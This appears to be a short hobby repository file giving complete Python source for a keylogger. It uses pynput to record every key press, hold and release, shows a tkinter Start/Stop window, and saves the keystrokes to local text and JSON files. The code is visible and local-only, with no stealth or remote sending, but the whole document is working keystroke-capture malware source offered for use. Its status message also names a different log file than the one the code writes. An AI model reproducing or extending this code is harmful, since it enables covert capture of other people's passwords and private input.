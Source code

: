 # Keylogger-

import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt', "w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode()
        key_log.write(key_list_bytes)

def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed': f'{key}'}
        )
        flag = True

    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )
    generate_json_file(keys_used)


def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released': f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys + str(key)
    generate_text_log(str(keys))

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT)

root.geometry("250x250")

root.mainloop()

